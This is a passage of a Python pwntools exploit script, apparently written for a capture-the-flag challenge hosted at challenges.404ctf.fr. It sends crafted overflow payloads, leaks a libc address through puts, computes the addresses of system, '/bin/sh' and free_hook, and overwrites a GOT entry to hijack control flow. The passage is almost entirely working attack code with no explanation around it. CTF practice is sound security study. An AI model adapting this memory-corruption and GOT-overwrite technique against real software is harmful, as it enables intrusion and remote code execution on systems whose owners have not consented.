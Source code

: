 ```
        if i > 0:
            resp = p.recv()
        p.sendline(b"3")
        p.recv()
        payload = b"a"*16 + b"\x08" + b"\x50"*(int(i>0)) + b"\x40"*(int(i>1)) + b"\x00\x00"*(int(i>2))
        payload += b"\x00\x00"*(int(i>3)) + b"\x00"*(int(i>4)) + b"\x00"*(int(i>5)) + b"\x00"*(int(i>6))
        p.sendline(payload)


def trigger_fault_2(p, addr, lim=6):
    addrs = addr.to_bytes(6, 'little')
    print(f"Address to inject : {hex(addr)}")
    print(addr)
    for i in range(0, lim):
        print(f"Round {i}")
        if(i > 0):
            print(p.recv().decode())
        p.sendline(b"3")
        print(p.recv().decode())
        payload = b"a"*16 + bytes([addrs[0]]) + bytes([addrs[1]])*(int(i>0)) + bytes([addrs[2]])*(int(i>1)) + (bytes([addrs[3]]) + b"\x00")*(int(i>2))
        payload += bytes([addrs[4]])*(int(i>3)) + (bytes([addrs[5]]) + b"\x00")*(int(i>4))
        p.sendline(payload)

p = remote('challenges.404ctf.fr', 31338)
#p = process('./chall')

# puts@got.plt 0x405008

init_g(p)
print(f"STEP #1: {p.recv().decode()}")
p.sendline(b"5") # get the libc leak

heap_info = p.recv()
mall = extract(p.recv())

trigger_fault_backup(p)
#print(f"STEP #2: {p.recv()}")

p.recv()
p.sendline(b"5") # get the libc leak

# Calculating addresses
puts_addr = get_leak(p) # offset = 0x5daa0
libc_addr = puts_addr - 0x5daa0
freehook_addr = libc_addr +     0x1f01a8
strlen_addr = libc_addr + 0x88a80
printf_addr = libc_addr + 0x35b40
getchar_addr = libc_addr + 0x64a50
malloc_addr = libc_addr + 0x812d0
system_addr = libc_addr + 0x2edb0
binsh_addr = libc_addr + 0x1b1ece

#gdb.attach(p, gdbscript='''
#break do_system
#''')


trigger_fault_backup_3(p) # Edit free @ got.plt
p.recv()

```
